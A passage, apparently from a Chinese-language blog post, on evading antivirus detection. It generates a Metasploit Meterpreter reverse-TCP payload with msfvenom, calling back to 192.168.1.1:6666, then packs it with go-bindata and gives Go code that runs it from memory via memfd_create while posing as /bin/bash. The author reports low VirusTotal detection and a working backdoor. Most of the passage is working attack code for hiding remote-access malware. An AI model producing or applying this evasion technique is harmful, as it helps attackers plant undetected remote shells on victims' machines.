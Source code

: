 ```
msfvenom -p  linux/x64/meterpreter/reverse_tcp  -e x86/shikata_ga_nai -i 1 lhost=192.168.1.1 lport=6666 -f elf > ./test
```

这个样本肯定是不免杀的，上传到 virustotal 上看一下。

[![](https://p1.ssl.qhimg.com/t01e6d769148990c812.png)](https://p1.ssl.qhimg.com/t01e6d769148990c812.png)

竟然才仅有 4 款杀毒软件报毒，这太出乎意料了，是杀毒软件提不动刀了，还是 metasploit 的编码器太强了？不过 anyway，我们还是用 go 去加载这个二进制，看一下效果。

1.  使用 go-bindata 打包到一个文件中

```
# https://github.com/kevinburke/go-bindata
./go-bindata ./test
```

这样就会生成一个 `bindata.go` 的文件，里面以压缩字节的形式存储这 ./test 的数据。

[![](https://p3.ssl.qhimg.com/t0145d1b0b9cbd9fb90.png)](https://p3.ssl.qhimg.com/t0145d1b0b9cbd9fb90.png)

接下来在 `bindata.go` 中编写 main 函数，来让 test 文件从内存执行:

```
const (
    mfdCloexec  = 0x0001 // 注意这个syscall 只有 3.17 之后的内核才支持,现在大部分的机器都支持了。
    memfdCreate = 319
)
func main() {

    data, err := Asset("test")
    if err != nil {
        // Asset was not found.
        fmt.Println("read test file content error!")
    }
    filename := ""

    fd, _, _ := syscall.Syscall(memfdCreate, uintptr(unsafe.Pointer(&filename)), uintptr(mfdCloexec), 0)

    _, _ = syscall.Write(int(fd), data)
    displayName := "/bin/bash"

    fdPath := fmt.Sprintf("/proc/self/fd/%d", fd)
    _ = syscall.Exec(fdPath, []string{displayName}, nil)

}
```

编译之后，发现这个后门功能正常，上传到 virustotal 再看一下效果。

[![](https://p2.ssl.qhimg.com/t0100747f620d8d272c.png)](https://p2.ssl.qhimg.com/t0100747f620d8d272c.png)

效果还算理想。这里可以放任意的会被杀软干掉的二进制，应该免杀效果都是杠杠的。
